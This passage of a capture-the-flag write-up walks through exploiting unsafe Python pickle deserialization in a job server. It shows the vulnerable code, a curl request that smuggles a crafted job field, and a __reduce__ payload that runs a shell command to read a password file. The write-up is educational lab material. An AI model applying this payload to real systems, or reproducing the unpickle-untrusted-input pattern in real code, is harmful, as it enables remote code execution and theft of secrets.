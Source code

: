 {{< highlight python >}}
@staticmethod
def deserialize(serialized):
    logger.debug('Deserializing: %r' % serialized)
    parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
    match = parser.match(serialized)
    direction = match.group(1)
    data = match.group(2)
    job = pickle.loads(match.group(3))
    return direction, data, job

@staticmethod
def serialize(direction, data, job):
    serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
    logger.debug('Serialized to: %r' % serialized)
    return serialized
{{< /highlight >}}

And you can submit jobs like this:

{{< highlight shell >}}
curl localhost:9020 -d "uppercase me"
{{< /highlight >}}

From this, we notice that the format of the serialized jobs is as follows:

    type: blah; data: some data here; job: blah blah blah

So, we can force the program to deserialize our own custom data by manually
crafting a request to the program that looks like this:

{{< highlight shell >}}
curl localhost:9020 -d "asdf; job: pickled data here"
{{< /highlight >}}

This will cause the program to unpickle the data "pickled data here". So, we
can control the unpickling process - what now? Well, the pickle module is known
to be insecure. As it says in the [pickle documentation][pickle]: "The pickle
module is not intended to be secure against erroneous or maliciously
constructed data.  Never unpickle data received from an untrusted or
unauthenticated source.".

Also from this documentation, we see that there's a magic method defined
(`__reduce__`) that will be called when unpickling the class. We can therefore
write a custom class that will execute our own custom python code when it's
unpickled:

{{< highlight python >}}
q = '__import__("os").system("/bin/cat /home/level06/.password > /tmp/tmp.hSIOEi8xJ1/paswd")'
class Job(object):
    def __reduce__(self):
        return (eval, (q,))
{{< /highlight >}}

I simply had the program read the password file, and then write it to the
temporary directory I was currently in. The method given should work for any
arbitrary `system()` call, so other methods are possible. Note that simply
copying the file using cp doesn't work, as cp will copy the permissions of the
file, too.


[ctf]: https://stripe.com/blog/capture-the-flag
[wrapup]: https://stripe.com/blog/capture-the-flag-wrap-up
[ctfcode]: https://github.com/abrody/stripe-ctf/
[aslr]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[strcpy]: http://pubs.opengroup.org/onlinepubs/009695399/functions/strcpy.html
[pickle]: http://docs.python.org/library/pickle.html
[level06]: https://github.com/abrody/stripe-ctf/blob/master/code/level06/level06.c
[mkfifo]: http://linux.die.net/man/3/mkfifo
[writeup01]: http://blog.zx2c4.com/781
[writeup02]: http://willcodeforfoo.com/2012/02/capture-the-flag/
[writeup03]: https://github.com/dividuum/stripe-ctf
[writeup04]: https://gist.github.com/michaelpetrov/1899630